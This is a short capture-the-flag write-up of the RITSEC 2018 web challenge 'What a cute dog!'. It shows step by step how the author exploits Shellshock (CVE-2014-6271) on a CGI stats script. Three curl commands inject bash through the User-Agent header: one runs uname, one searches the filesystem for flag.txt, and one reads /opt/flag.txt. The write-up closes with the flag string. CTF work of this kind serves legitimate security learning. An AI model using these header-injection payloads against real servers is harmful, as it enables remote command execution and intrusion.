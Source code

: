 # What a cute dog ! - Web challenge (350 points)

Another web challenge with URL: http://fun.ritsec.club:8008/.
Upon opening the given URL, we see a **shockingly** cute dog ! And some stats: *Mon Nov 19 11:06:51 UTC 2018
11:06:51 up 2 days, 18:54, 0 users, load average: 0.00, 0.00, 0.03* . 

Inspecting the source we see an interesting link: http://fun.ritsec.club:8008/cgi-bin/stats.
Googling this, we found and exploit for *stats*. And guess what, it is a shellshock exploit (*_CVE 2014-6271_*).
We are going to use this for finding the flag: **_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'uname -a;'" http://fun.ritsec.club:8008/cgi-bin/stats_**

After some time for searching the flag, i remember that flag is always named like *flag.txt*. So I ran this command in terminal to get the exact location of a flag:

*_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats_*

flag.txt was found in **/opt/** folder. The final step we needed to take was to read the flag. 
*_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats_*

We got response with a flag: **RITSEC{sh3ll_sh0cked_w0wz3rs}**
